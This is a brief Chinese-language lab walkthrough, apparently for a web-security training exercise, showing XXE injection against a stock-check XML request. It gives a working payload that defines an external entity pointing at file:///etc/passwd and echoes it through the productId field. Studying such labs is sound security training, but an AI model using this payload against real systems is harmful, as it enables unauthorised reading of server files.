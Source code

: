 <img src=".\图片\Snipaste_2023-07-31_10-17-43.png" alt="Snipaste_2023-07-31_10-17-43" style="zoom:80%;" />

XXE注入

在XML声明和stockCheck元素之间插入以下外部实体定义：

```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

并修改回显地方： `&xxe`

最后为如下：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
